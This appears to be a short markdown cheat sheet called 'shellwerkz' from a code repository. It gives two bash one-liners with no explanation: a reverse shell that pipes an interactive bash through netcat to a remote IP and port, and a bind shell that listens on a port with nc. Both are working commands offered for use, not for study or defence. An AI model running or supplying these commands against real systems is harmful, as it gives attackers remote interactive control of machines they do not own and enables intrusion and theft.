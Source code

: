 # shellwerkz
You may need to use [`nc` with a proxy](./netcat.md).

# Reverse shell

## bash
```bash
mkfifo /tmp/ffifo; /bin/bash -i < /tmp/ffifo 2>&1 | nc $remote_ip $port > /tmp/ffifo
```

# Bind shell
## bash
```bash
mkfifo /tmp/f
/bin/sh -i 2>&1 < /tmp/f | nc -lvp $port > /tmp/f
```